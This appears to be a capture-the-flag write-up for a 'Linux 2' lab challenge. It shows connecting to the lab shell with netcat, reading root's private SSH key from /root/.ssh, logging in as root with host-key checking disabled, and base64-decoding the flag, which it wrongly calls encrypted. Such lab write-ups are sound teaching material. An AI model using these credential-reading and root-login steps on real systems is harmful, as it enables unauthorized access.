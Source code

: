 # TASK -- Linux 2

## Can you capture the flag? Execute the following command to obtain a reverse shell on your local machine.

```bash
$ nc 192.168.10.7 9999

Where am I?
```
This command give us access with a reverse shell yo the machine with `ip 192.168.10.7`

The first command executed was ls you can see a directory called ytdl I had a look in there and I couldn´t find nothing special.
So I moved around the directories and found out that the directory `/root` has a readable hidden directory `.ssh` which store the followings files:
* `authorized_keys` Specifies the SSH keys that can be used for logging into the user account for which the file is configured
* `id_rsa` Here is stored the private key of the machine
* `id_rsa.pub` Here is stored the public key of the machine
As u can use ``` $cat id_rsa ``` and you can read the private key, we have two options:
1. Copy this key to our machine
2. Use this key locally to connect as root
The optimal option is to connect locally via `ssh` to the machine so we use. We will use 2>&1 to have the error message printed.
```bash 
$ ssh root@localmachine -i /root/.ssh/id_rsa 2>&1
```
This is not enough to connect to the machine, we have the problem that the host cant allow us to connect becouse we are not in the known host list
we can jump throw this control by using the flag `-o StrictHostKeyChecking=no` now the command is this.

```bash 
$ ssh root@localmachine -i /root/.ssh/id_rsa -o StrictHostKeyChecking=no

Y3liZXJjdGZkezFuZDMzZF93aDNyM193NDVfMX0=

```
This message is encrypted so we now need to decrypt it.

```bash 
$ echo "Y3liZXJjdGZkezFuZDMzZF93aDNyM193NDVfMX0=" | base64 -d
cyberctfd{1nd33d_wh3r3_w45_1}
```
